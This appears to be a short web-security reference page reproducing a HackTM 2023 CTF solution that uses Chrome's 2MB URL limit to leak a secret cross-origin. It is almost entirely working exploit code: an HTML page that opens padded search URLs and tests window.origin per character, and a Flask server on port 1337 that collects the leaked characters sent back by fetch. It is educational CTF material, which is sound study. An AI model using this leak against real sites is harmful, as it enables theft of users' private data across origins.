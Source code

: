 # URL Max Length - Client Side


Code from [[https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit|https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit]]

```html
<html>
  
  <script>
    ;(async () => {
      const curr = "http://secrets.wtl.pw/search?query=HackTM{"

      const leak = async (char) => {
        fetch("/?try=" + char)
        let w = window.open(
          curr + char + "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2)
        )

        const check = async () => {
          try {
            w.origin
          } catch {
            fetch("/?nope=" + char)
            return
          }
          setTimeout(check, 100)
        }
        check()
      }

      const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

      for (let i = 0; i < CHARSET.length; i++) {
        leak(CHARSET[i])
        await new Promise((resolve) => setTimeout(resolve, 50))
      }
    })()
  </script>
</html>
```
```
Server side:

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars

    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```
```




